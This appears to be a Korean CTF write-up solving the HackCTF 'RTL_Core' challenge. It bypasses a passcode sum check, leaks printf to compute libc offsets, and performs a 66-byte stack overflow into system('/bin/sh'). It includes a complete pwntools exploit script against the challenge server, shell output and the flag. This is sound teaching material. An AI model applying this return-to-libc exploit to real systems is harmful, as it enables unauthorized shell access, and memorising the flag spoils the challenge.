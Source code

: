# RTL_Core

---

우선 `main()`코드를 살펴보자.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+Ch] [ebp-1Ch]

  setvbuf(_bss_start, 0, 2, 0);
  puts(&::s);
  printf("Passcode: ");
  gets(&s);
  if ( check_passcode((int)&s) == hashcode )
  {
    puts(&byte_8048840);
    core();
  }
  else
  {
    puts(&byte_8048881);
  }
  return 0;
}
```

s에 문자열을 입력하면 `check_passcode()`를 통해서 계산된 값과 hashcode의 값이 같다면 `core()`함수로 이동할 수 있다. 우선 hashcode의 값은 다음과 같다.

```gdb
gdb-peda$ p hashcode
$1 = 0xc0d9b0a7
```

그리고 `check_passcode()`함수는 다음과 같다.

```c
int __cdecl check_passcode(int a1)
{
  int v2; // [esp+8h] [ebp-8h]
  int i; // [esp+Ch] [ebp-4h]

  v2 = 0;
  for ( i = 0; i <= 4; ++i )
    v2 += *(_DWORD *)(4 * i + a1);
  return v2;
}
```

`check_passcode()`함수는 내가 입력한 20bytes의 값을 4bytes단위로 끊어서 5개의 값을 각각 더한 결과를 의미한다. 따라서 다음과 같이 입력하여 hashcode checking을 통과할 수 있다.

**'\xa7\xb0\xd9\xc0'+'\x00\x00\x00\x00'\*4**

이렇게 `core()`함수로 이동하면 해당 함수의 코드는 다음과 같다.

```c
ssize_t core()
{
  int buf; // [esp+Ah] [ebp-3Eh]
  int v2; // [esp+Eh] [ebp-3Ah]
  __int16 v3; // [esp+12h] [ebp-36h]
  int v4; // [esp+38h] [ebp-10h]
  void *v5; // [esp+3Ch] [ebp-Ch]

  buf = 0;
  v2 = 0;
  v4 = 0;
  memset(
    (void *)((unsigned int)&v3 & 0xFFFFFFFC),
    0,
    4 * ((((unsigned int)&v2 - ((unsigned int)&v3 & 0xFFFFFFFC) + 46) & 0xFFFFFFFC) >> 2));
  v5 = dlsym((void *)0xFFFFFFFF, "printf");
  printf(&format, v5);
  return read(0, &buf, 0x64u);
}
```

`core()`함수로 이동하게 되면 dlsym을 이용하여 `printf()`함수의 주소를 얻을 수 있게 된다. 그리고 이 `printf()`의 주소를 이용하여 offset을 구해서 libc_base를 구한 다음 system함수를 이용하여 쉘을 따낼 것이다.

이를 위해서 필요한 정보들은 다음과 같다.

```gdb
gdb-peda$ vmmap
Start      End        Perm	Name
...
0xf7dfe000 0xf7dff000 rw-p	mapped
0xf7dff000 0xf7faf000 r-xp	/lib/i386-linux-gnu/libc-2.23.so
...
gdb-peda$ p printf
$2 = {<text variable, no debug info>} 0xf7e48670 <__printf>
gdb-peda$ p system
$3 = {<text variable, no debug info>} 0xf7e39da0 <__libc_system>
gdb-peda$ p 0xf7e48670-0xf7dff000
$4 = 0x49670
gdb-peda$ p 0xf7e39da0-0xf7dff000
$5 = 0x3ada0
```

**printf\_offset=0x49670**
**system\_offset=0x3ada0**

또한 /bin/sh문자열의 offset은 다음과 같다.

```gdb
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7f5aa0b ("/bin/sh")
gdb-peda$ vmmap
Start      End        Perm	Name
...
0xf7dff000 0xf7faf000 r-xp	/lib/i386-linux-gnu/libc-2.23.so
...
gdb-peda$ p 0xf7f5aa0b-0xf7dff000
$1 = 0x15ba0b
```

**binsh_offset=0x15ba0b**

또한 `core()`함수에서 보면 입력받는 buf의 위치는 `core()+101`에서 볼 수 있듯이 [ebp-0x3e]와 같다.

```gdb
gdb-peda$ pd core
Dump of assembler code for function core:
...
   0x08048667 <+93>:	add    esp,0x10
   0x0804866a <+96>:	sub    esp,0x4
   0x0804866d <+99>:	push   0x64
   0x0804866f <+101>:	lea    eax,[ebp-0x3e]
   0x08048672 <+104>:	push   eax
   0x08048673 <+105>:	push   0x0
   0x08048675 <+107>:	call   0x8048450 <read@plt>
...
   0x08048684 <+122>:	ret    
End of assembler dump.
```

따라서 0x3e+0x4=66이기 때문에 payload를 다음과 같이 구성한다면 ret주소를 조작할 수 있다.

**[dummy 66bytes]+[return address]**

이를 이용하여 다음과 같이 로컬 익스플로잇을 진행하였다.
```bash
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/15.RTL_Core$ python ex.py
[+] Starting local process './rtlcore': pid 5988
[*] printf address is 0xf7d6e670
[*] Switching to interactive mode
$ whoami
sjy0175
```

하지만 실제 익스플로잇을 할 때는 사용하는 libc가 다르기 때문에 이대로 성공할 수는 없다.

이를 위해서 ELF를 이용해서 다음과 같이 원하는 정보를 들고와서 익스플로잇을 할 수 있다.

```python
from pwn import*

#p=process('./rtlcore')
p=remote('ctf.j0n9hyun.xyz', 3015)
libc=ELF('./libc.so.6')

payload='\xa7\xb0\xd9\xc0'
payload+='\x00\x00\x00\x00'*4

p.recvuntil(': ')
p.sendline(payload)

p.recvline()
p.recv(34)

printf_address=int(p.recv(10),16)
p.recvline()

log.info("printf address is "+str(hex(printf_address)))

printf_offset=libc.symbols['printf']
system_offset=libc.symbols['system']

libc_base=printf_address-printf_offset
system_address=libc_base+system_offset

binsh_address=libc.search("/bin/sh").next()+libc_base

payload2='A'*66
payload2+=p32(system_address)
payload2+='AAAA'
payload2+=p32(binsh_address)

p.sendline(payload2)

p.interactive()
```

flag는 다음과 같다.

```bash
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/15.RTL_Core$ python ex2.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3015: Done
[*] '/home/sjy0175/Desktop/HackCTF/Pwnable/15.RTL_Core/libc.so.6'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] printf address is 0xf7e23020
[*] Switching to interactive mode
$ whoami
attack
$ ls
flag
main
$ cat flag
HackCTF{5ucc355ful_r7lc0r3_f1l3_4cc355}
```

**flag: HackCTF{5ucc355ful_r7lc0r3_f1l3_4cc355}**


(?) p hashcode하면 hashcode 주소 아닌가?
(?) PIE아닌데 offset은 왜구함?

